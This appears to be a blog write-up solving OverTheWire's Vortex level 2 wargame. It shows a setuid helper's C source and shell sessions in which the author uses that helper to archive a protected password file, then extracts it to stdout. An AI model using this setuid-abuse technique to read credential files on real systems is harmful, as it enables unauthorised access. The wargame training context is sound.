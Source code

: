 +++
title = "OverTheWire: Vortex Level2"
author = "Victor"
date = "2013-05-02"
tags = ["coding", "security", "wargames", "vortex", "appsec"]
category = "blog"
+++

Solution for [level2][1]:

Here is the code:

~~~.c
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>


int main(int argc, char **argv)
{
        char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
        execv(args[0], args);
}
~~~

**$$** expands to the process ID of the shell.

~~~.shell
$ echo $$
24489
~~~

Let's make some observations:

~~~.shell
vortex2@melissa:~$ ls -l /etc/vortex_pass/vortex3 
-r-------- 1 vortex3 vortex3 10 2011-11-14 18:15 /etc/vortex_pass/vortex3
vortex2@melissa:~$ ls -l /vortex/vortex2
-r-sr-x--- 1 vortex3 vortex2 7134 2011-11-13 23:07 /vortex/vortex2
~~~

The password file is owned by **vortex3**. And the binary **/vortex/vortex3** is allowed to read this file. So we are allowed to tar this file using the binary. The binary itself expects 3 arguments. There we go:

~~~.shell
vortex2@melissa:/etc/vortex_pass$ /vortex/vortex2 vortex3 vortex3 vortex3 
/bin/tar: U\211\345WVS\350Z: Cannot stat: No such file or directory
/bin/tar: Exiting with failure status due to previous errors
vortex2@melissa:/etc/vortex_pass$ ls -l '/tmp/ownership.$$.tar'
-rw-r--r-- 1 vortex3 vortex2 10240 2012-10-31 18:59 /tmp/ownership.$$.tar
vortex2@melissa:/etc/vortex_pass$ cd /tmp/****
vortex2@melissa:/tmp/****$ cp '/tmp/ownership.$$.tar' .
cp: cannot create regular file `./ownership.$$.tar': Permission denied
~~~

Obviously we are not allowed to copy/untar the file. What about STDOUT?

~~~.shell
$ tar xf '/tmp/ownership.$$.tar' -O
*******
~~~

Password revealed. Next level!

 [1]: http://www.overthewire.org/wargames/vortex/vortex2.shtml
